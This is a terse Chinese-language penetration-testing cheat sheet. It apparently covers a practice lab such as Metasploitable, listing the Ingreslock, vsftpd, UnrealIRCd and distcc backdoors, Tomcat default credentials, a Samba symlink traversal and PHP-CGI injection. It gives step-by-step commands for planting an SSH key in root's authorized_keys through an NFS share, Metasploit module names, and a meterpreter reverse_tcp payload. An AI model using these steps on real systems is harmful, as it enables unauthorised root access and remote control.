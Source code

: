 # Kali Linux #
## Ingreslock后门漏洞 ##
**Port**: 1524  
telnet直接获取Root权限
## Linux NFS共享目录配置漏洞 ##
Step1：查看目标主机上NFS服务是否开启：   
```
rpcinfo -p 192.168.1.3   
```   
Step2:显示指定的远程共享目录列表：   
```
showmount -e 192.168.1.3
```   
Step3:生成rsa公钥：   
```
ssh-keygen
```   
Step4:
```
mkdir /tmp/tool 建立tool目录   
mount -t nfs 192.168.1.3:/tmp/tool,把192.168.1.3根目录挂载到/tmp/tool目录下   
```    
Step5：把生成的公钥追加到靶机的authorized_keys下，实现ssh免密码登录：
```
cat  /root/.ssh/id_rsa.pub>>/tmp/tool/root/.ssh/authorized_keys
```
Step6:连接
```
ssh root@ip
```
## Metasploit溢出vsftp特权提升漏洞 ##
**Port:**21
## Metasploit溢出UnrealIRCd后门漏洞 ##
**Port:**6667
## Tomcat管理台默认口令漏洞 ##
**Port:**8180    
**Service:** ApacheTomcat/CoyoteJSP engine1.1   
**Default:**tomcat tomcat
## sysmlink 默认配置目录遍历漏洞 ##
**Port:**:445 139   
**Service:**Samba   
**Payload:**auxiliary/admin/smb/samba_symlink_traversal
```
set SMBSHARE tmp SAM可写文件
smbclient //ip/tmp 
cd rootfs 进入root目录
cat /*
```
## Metasploit利用php_cgi漏洞 ##
**Dir:**cgi-bin
**Exploit:**exploit/multi/php_cgi_arg_injection
**Payload:**
```
set PAYLOAD /php/meterpreter/reverse_tcp
```
## Distcc后门漏洞 ##
**Port:**3632
**Exploit:**use exploit/unix/misc/distcc_exec

